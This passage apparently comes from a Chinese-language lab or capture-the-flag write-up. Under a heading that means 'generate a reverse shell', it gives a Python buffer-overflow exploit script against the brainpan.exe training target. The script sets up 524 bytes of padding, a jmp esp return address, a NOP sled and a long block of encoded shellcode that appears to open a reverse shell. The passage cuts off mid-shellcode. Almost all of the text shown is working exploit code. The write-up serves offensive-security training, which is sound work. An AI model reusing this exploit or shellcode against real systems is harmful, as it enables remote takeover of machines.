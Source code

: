 生成反弹shell

![](../../.gitbook/assets/1564756579_5d444a63c324e.png)

payload

```
root@kali:~# cat fuzz.py 
import sys,socket
 
victim = '192.168.0.101'
port = 9999
 
junk = "\x41" * 524
eip = "\xf3\x12\x17\x31" #jmp esp 311712F3 brainpan.exe
shellcode = "\x90" * 50 

buf =  ""
buf += "\xd9\xc5\xd9\x74\x24\xf4\xb8\x1e\xc6\x68\xe1\x5d\x31"
buf += "\xc9\xb1\x52\x83\xc5\x04\x31\x45\x13\x03\x5b\xd5\x8a"
buf += "\x14\x9f\x31\xc8\xd7\x5f\xc2\xad\x5e\xba\xf3\xed\x05"
buf += "\xcf\xa4\xdd\x4e\x9d\x48\x95\x03\x35\xda\xdb\x8b\x3a"
buf += "\x6b\x51\xea\x75\x6c\xca\xce\x14\xee\x11\x03\xf6\xcf"
buf += "\xd9\x56\xf7\x08\x07\x9a\xa5\xc1\x43\x09\x59\x65\x19"
buf += "\x92\xd2\x35\x8f\x92\x07\x8d\xae\xb3\x96\x85\xe8\x13"
buf += "\x19\x49\x81\x1d\x01\x8e\xac\xd4\xba\x64\x5a\xe7\x6a"
buf += "\xb5\xa3\x44\x53\x79\x56\x94\x94\xbe\x89\xe3\xec\xbc"
buf += "\x34\xf4\x2b\xbe\xe2\x71\xaf\x18\x60\x21\x0b\x98\xa5"
buf += "\xb4\xd8\x96\x02\xb2\x86\xba\x95\x17\xbd\xc7\x1e\x96"
buf += "\x11\x4e\x64\xbd\xb5\x0a\x3e\xdc\xec\xf6\x91\xe1\xee"
buf += "\x58\x4d\x44\x65\x74\x9a\xf5\x24\x11\x6f\x34\xd6\xe1"
buf += "\xe7\x4f\xa5\xd3\xa8\xfb\x21\x58\x20\x22\xb6\x9f\x1b"
buf += "\x92\x28\x5e\xa4\xe3\x61\xa5\xf0\xb3\x19\x0c\x79\x58"
buf += "\xd9\xb1\xac\xcf\x89\x1d\x1f\xb0\x79\xde\xcf\x58\x93"
buf += "\xd1\x30\x78\x9c\x3b\x59\x13\x67\xac\xa6\x4c\x67\x46"
buf += "\x4f\x8f\x67\x87\xd3\x06\x81\xcd\xfb\x4e\x1a\x7a\x65"
buf += "\xcb\xd0\x1b\x6a\xc1\x9d\x1c\xe0\xe6\x62\xd2\x01\x82"
buf += "\x70\x83\xe1\xd9\x2a\x02\xfd\xf7\x42\xc8\x6c\x9c\x92"
buf += "\x87\x8c\x0b\xc5\xc0\x63\x42\x83\xfc\xda\xfc\xb1\xfc"
buf += "\xbb\xc7\x71\xdb\x7f\xc9\x78\xae\xc4\xed\x6a\x76\xc4"
buf += "\xa9\xde\x26\x93\x67\x88\x80\x4d\xc6\x62\x5b\x21\x80"
```